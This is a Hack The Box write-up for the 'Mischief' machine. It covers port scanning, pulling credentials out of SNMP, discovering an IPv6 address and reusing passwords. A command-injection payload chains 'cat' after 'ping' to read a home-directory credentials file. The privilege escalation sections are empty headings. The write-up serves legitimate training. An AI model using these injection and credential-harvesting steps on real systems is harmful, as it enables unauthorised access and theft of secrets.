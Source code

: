 ```yaml
---
title: HTB - Mischief Write-up
author: bigb0ss
date: 2020-11-03 23:25:00 +0800
categories: [Hack The Box, Linux, Insance]
tags: [hackthebox, mischief]
---
```


![image](/assets/img/post/htb/mischief/01_infocard.png)



This box was pretty simple and easy one to fully compromise. Good learning path to:
* 
* 
* 

## Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -T4 -sC -sV 10.10.10.92

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
3366/tcp open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
| http-auth: 
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Test
|_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's also run a port scan against the UDP ports as well:

```console

```

### Interesting Ports

* HTTP (3366/TCP) - Website with Authentication Prompt. No easy credentials worked
* SNMP (161/UDP) - Simple Network Management Protocol

### SNMP (Credentials)

By using `snmpwalk`, we can see the list of the SNMP information. Especially, it reveals a set of credentials `loki : godofmischiefisloki`. 

```console
$ snmpwalk -v1 -c public 10.10.10.92

...snip...

iso.3.6.1.2.1.25.4.2.1.5.588 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
iso.3.6.1.2.1.25.4.2.1.5.603 = ""

...snip...
```

Using the found credentials, we could log into the `http://10.10.10.92:3366` page and find another set of credentials `loki : trickeryanddeceit`; however, it was dead-end. Using both of the credentials for `SSH` did not work either.

![image](/assets/img/post/htb/mischief/02_cred.png)

### SNMP (IPv6)

When we inspect the `snmpwalk` result again, we can see the hex-converted IPv6 address `222.173.190.239.0.0.0.0.2.80.86.255.254.185.104.27`:

```console
...snip

iso.3.6.1.2.1.4.34.1.6.1.4.10.10.10.92 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.6.1.4.10.10.10.255 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.6.1.4.127.0.0.1 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.6.2.16.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.6.2.16.222.173.190.239.0.0.0.0.2.80.86.255.254.185.104.27 = INTEGER: 5
iso.3.6.1.2.1.4.34.1.6.2.16.254.128.0.0.0.0.0.0.2.80.86.255.254.185.104.27 = INTEGER: 5

...snip
```

Use the following `Python` script to covert the numbers into hex:

```python
# hexIPv6.py

import sys

hexIPv6 = sys.argv[1].split(".")

ip = ""

for i in hexIPv6:
    ip += hex(int(i))[2:].rjust(2, "0")

print ".".join(ip[i:i+4] for i in range(0, len(ip), 4))
```

```console
$ python hexIPv6.py 222.173.190.239.0.0.0.0.2.80.86.255.254.185.104.27
dead.beef.0000.0000.0250.56ff.feb9.681b
```

### Nmap (IPv6)

Let's run another scan against that IPv6 address. And this time, we can see the port 80 open.

```console
$nmap -Pn --open -6 -sC -sV dead:beef:0000:0000:0250:56ff:feb9:681b

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info: 
|   IPv6 EUI-64: 
|     MAC address: 
|       address: 00:50:56:b9:68:1b
|_      manuf: VMware
```

Let's add the IPv6 address to our `/etc/hosts` in order to browse the HTTP (80/tcp) page in the browser.

```console
$ vi /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali

### htb
dead:beef:0000:0000:0250:56ff:feb9:681b mischief.htb
```

Once we browse the page, we will be prompted with another login page.

![image](/assets/img/post/htb/mischief/03_login.png)

![image](/assets/img/post/htb/mischief/04_login.png)


## Initial Foothold

### Password Shuffling

Currently, we have the following two (2) credentials:

```console
loki : godofmischiefisloki
loki : trickeryanddeceit
```

However, both of the credentials did not work on that newly found login page. But doing some common username with those passwords combo, we can find the user `administrator` is using the password `trickeryanddeceit` for that login page. And we are now redirected to the Command Execution Panel.

![image](/assets/img/post/htb/mischief/05_rce.png)

### RCE (Sensitive Data Access)

The page also gives some hint: `In my home directory, i have my password in a file called credentials, Mr Admin`. But it restricts which commands can be used. Using the following command, we can successfully obtain the new password (`lokiisthebestnorsegod`) for the `loki` user:

```console
ping -c 2 127.0.0.1; cat /home/loki/c*;
```

![image](/assets/img/post/htb/mischief/06_pass.png)

### SSH (loki)

<b>user.txt</b>

With this credenitals (`loki : lokiisthebestnorsegod`), we can now `ssh` into the host. And we can also read the `user.txt` flag.

![image](/assets/img/post/htb/mischief/07_ssh.png)




## Privilege Escalation

### www-data --> hugo (user.txt)


### hugo --> root (CVE-2019-14287)

